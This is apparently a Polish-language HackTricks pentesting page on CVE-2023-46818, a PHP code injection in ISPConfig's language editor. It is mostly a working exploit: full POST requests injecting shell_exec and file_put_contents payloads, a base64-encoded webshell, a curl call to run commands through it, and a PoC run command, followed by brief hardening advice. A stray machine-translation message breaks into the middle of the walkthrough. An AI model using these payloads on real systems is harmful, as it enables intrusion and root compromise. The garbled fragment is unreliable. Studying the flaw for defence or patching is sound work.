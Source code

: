 # ISPConfig

{{#include ../../banners/hacktricks-training.md}}

## Przegląd

ISPConfig to otwarto-źródłowy panel do zarządzania hostingiem. Starsze wersje 3.2.x zawierały funkcję edytora plików językowych, która, gdy była włączona dla super administratora, pozwalała na wstrzyknięcie dowolnego kodu PHP za pomocą sfałszowanego rekordu tłumaczenia. Może to prowadzić do RCE w kontekście serwera WWW i, w zależności od sposobu uruchamiania PHP, do privilege escalation.

Kluczowe domyślne ścieżki:
- Katalog główny serwera WWW często znajduje się w `/var/www/ispconfig` gdy serwowane za pomocą `php -S` lub przez Apache/nginx.
- Interfejs administracyjny dostępny na vhost HTTP(S) (czasami powiązany tylko z localhost; użyj przekierowania portu SSH, jeśli to konieczne).

Wskazówka: Jeśli panel jest związany lokalnie (np. `127.0.0.1:8080`), przekieruj go:
```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```
## Language editor PHP code injection (CVE-2023-46818)

- Dotyczy: ISPConfig up to 3.2.11 (fixed in 3.2.11p1)
- Warunki wstępne:
- Zaloguj się jako wbudowane konto superadmin `admin` (inne role nie są dotknięte według dostawcy)
- Edytor języka musi być włączony: `admin_allow_langedit=yes` in `/usr/local/ispconfig/security/security_settings.ini`
- Skutek: Uwierzytelniony admin może wstrzyknąć dowolny kod PHP, który zostanie zapisany w pliku językowym i wykonany przez aplikację, osiągając RCE w kontekście web

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### Manual exploitation flow

1) Open/create a language file to obtain CSRF tokens

Wyślij pierwsze żądanie POST, aby zainicjować formularz i sparsować pola CSRF z odpowiedzi HTML (`csrf_id`, `csrf_key`). Przykładowa ścieżka żądania: `/admin/language_edit.php`.

2) Inject PHP via records[] and save

Wyślij drugie żądanie POST zawierające pola CSRF oraz złośliwy wpis tłumaczenia. Minimalne próby wykonania poleceń:
```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```
Test poza pasmem (obserwuj ICMP):
```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```
3) Zapisz pliki i wgraj webshell

Użyj `file_put_contents`, aby utworzyć plik w ścieżce dostępnej przez web (np. `admin/`):
```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```
Następnie napisz prosty webshell używając base64, aby uniknąć niepożądanych znaków w treści POST:
```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```
Nie otrzymałem zawartości pliku. Proszę wklej treść pliku src/network-services-pentesting/pentesting-web/ispconfig.md albo wskaż, które sekcje przetłumaczyć. Zachowam oryginalne znaczniki, linki, ścieżki i kod.
```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```
Jeśli PHP jest uruchamiane jako root (np. przez `php -S 127.0.0.1:8080` uruchomione przez root), daje to natychmiastowe RCE jako root. W przeciwnym razie uzyskujesz wykonanie kodu jako użytkownik serwera WWW.

### Python PoC

Gotowy exploit automatyzuje obsługę tokenów i dostarczanie payloadu:
- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

Przykładowe uruchomienie:
```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```
### Wzmacnianie zabezpieczeń

- Zaktualizuj do 3.2.11p1 lub nowszej
- Wyłącz edytor języków, chyba że jest to ściśle konieczne:
```
admin_allow_langedit=no
```
- Unikaj uruchamiania panelu jako root; skonfiguruj PHP-FPM lub serwer WWW tak, aby obniżał uprawnienia
- Wymagaj silnego uwierzytelniania dla wbudowanego konta `admin`

## Źródła

- [ISPConfig 3.2.11p1 Released (fixes language editor code injection)](https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/)
- [CVE-2023-46818 – NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)
- [bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)
- [HTB Nocturnal: Root via ISPConfig language editor RCE](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)

{{#include ../../banners/hacktricks-training.md}}
